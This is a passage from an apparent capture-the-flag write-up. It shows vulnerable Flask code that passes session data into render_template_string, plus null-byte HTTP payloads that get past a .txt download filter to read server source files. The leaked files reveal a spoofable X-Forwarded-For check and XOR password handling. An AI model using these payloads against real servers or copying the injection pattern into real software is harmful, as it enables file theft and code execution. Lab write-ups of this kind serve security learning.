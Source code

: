 ```python
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)
```

---

### Bypassing File Type Restriction

By reading the source code, we see that we can download any file that ends with `.txt`. We can use a null byte to bypass that check in the cloud download route:

```plaintext
POST /cloud HTTP/1.1
Host: 10.10.210.50:7777
...
download=supersecrettip.txt
download=ip.py%00.txt
download=debugpassword.py%00.txt
```

Contents of `supersecrettip.txt`:
```python
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
```

Contents of `ip.py`:
```python
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```

Contents of `debugpassword.py`:
```python
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')
```
